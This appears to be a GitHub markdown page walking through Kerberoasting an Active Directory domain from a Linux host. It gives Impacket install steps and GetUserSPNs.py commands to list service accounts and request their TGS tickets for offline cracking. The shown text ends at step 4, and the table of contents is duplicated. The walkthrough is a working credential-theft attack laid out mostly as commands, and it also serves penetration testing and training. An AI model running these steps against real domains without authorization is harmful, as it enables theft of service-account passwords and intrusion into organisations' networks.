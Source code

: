 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
    - [Kerberoasting from a Non-Domain Joined Linux Host:](#Kerberoasting\from\a\Non-Domain\Joined\Linux\Host:)
  - [Key Points:](#Key\Points:)
  - [Attack Steps:](#Attack\Steps:)
  - [Mitigation:](#Mitigation:)
  - [Conclusion:](#Conclusion:)
  - [Performing the Attack (KerberRoasting)](#Performing\the\Attack\(KerberRoasting))
  - [Kerberoasting with GetUserSPNs.py](#Kerberoasting\with\GetUserSPNs.py)
      - [Installing Impacket using Pip](#Installing\Impacket\using\Pip)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Saving the TGS Ticket to an Output File](#Saving\the\TGS\Ticket\to\an\Output\File)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)

## Table of Contents

    - [Kerberoasting from a Non-Domain Joined Linux Host:](#Kerberoasting\from\a\Non-Domain\Joined\Linux\Host:)
  - [Key Points:](#Key\Points:)
  - [Attack Steps:](#Attack\Steps:)
  - [Mitigation:](#Mitigation:)
  - [Conclusion:](#Conclusion:)
  - [Performing the Attack (KerberRoasting)](#Performing\the\Attack\(KerberRoasting))
  - [Kerberoasting with GetUserSPNs.py](#Kerberoasting\with\GetUserSPNs.py)
      - [Installing Impacket using Pip](#Installing\Impacket\using\Pip)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Saving the TGS Ticket to an Output File](#Saving\the\TGS\Ticket\to\an\Output\File)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)



### Kerberoasting from a Non-Domain Joined Linux Host:

**1. Setup:** a. You'll need a valid set of domain credentials to perform Kerberoasting. b. The account doesn't need special privileges, just basic domain authentication.

**2. Installing Impacket:** a. Clone the Impacket repository: `git clone https://github.com/SecureAuthCorp/impacket.git cd impacket` b. Install Impacket: `shell-session sudo python3 -m pip install .`

**3. Listing Service Principal Names (SPNs) using GetUserSPNs.py:** a. This step helps you identify which accounts have SPNs set, and are hence roastable. b. To list SPNs: `GetUserSPNs.py -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USERNAME>` c. Replace `<DOMAIN_CONTROLLER_IP>`, `<DOMAIN>`, and `<USERNAME>` with the appropriate values.

**4. Requesting Ticket Granting Service (TGS) Tickets:** a. Request TGS for all accounts with SPNs:  `GetUserSPNs.py -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USERNAME> -request` b. For a specific account, use the `-request-user` flag: `shell-session GetUserSPNs.py -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USERNAME> -request-user <SPECIFIC_USER>`
